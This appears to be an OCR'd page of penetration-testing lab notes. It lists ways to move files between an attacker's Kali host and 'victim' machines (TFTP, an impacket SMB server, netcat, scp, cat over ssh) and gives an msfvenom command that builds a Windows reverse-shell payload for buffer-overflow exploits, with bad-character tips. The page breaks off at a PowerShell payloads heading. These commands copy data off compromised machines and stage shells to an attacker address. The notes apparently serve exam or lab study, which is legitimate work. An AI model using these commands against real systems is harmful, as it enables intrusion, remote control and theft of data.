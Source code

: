 tftp -I 192.168.119.177 put file.exe
   

## SMB - Temperamental

Start SMB Service on Kali  
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share /ftphome -smb2support
 
Drag and drop to the network share, refer to it with the IP eg  
[\\192.168.119.177\share](file:///\\192.168.119.177\share)
 
## Rdesktop

rdesktop -r risk:share=/root/Downloads 192.168.177.10 -u admin -p lab
   

# Linux

## FTP (not yet tested)

$ ftp -n <<EOF￼open [ftp.example.com](http://ftp.example.com)￼user user secret￼put my-local-file.txt￼EOF
 
## NetCat

nc -w 3 192.168.119.177 1234 < DownloadFIle  
nc -l -p 1234 > DownloadFIle
 
## SCP 1 liner

Copy From Victim  
scp text.txt kali@192.168.119.177:/ftphome/file.txt
 
Copy To Victim  
scp root@10.10.10.4:/ftphome/pe.sh /tmp/pe.sh
 
## Cat Pipe

Is another easy way of sending files  
cat /directory/<file> | ssh <user>@<IP> "cat >> directory/file"

# MSF Venom
## Bof

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.6 LPORT=443 -f py -a x86 -b "\x00\x0a\x90" --var-name shell EXITFUNC=thread
 
-n if s flag that can be used to enter NOPs into the payload. (Tho the output dosent directly show it as x90)
 
THIS IS VERY HELPFUL IF /x90 IS A BAD CHARACTER
 
## Payloads
 
Powershell

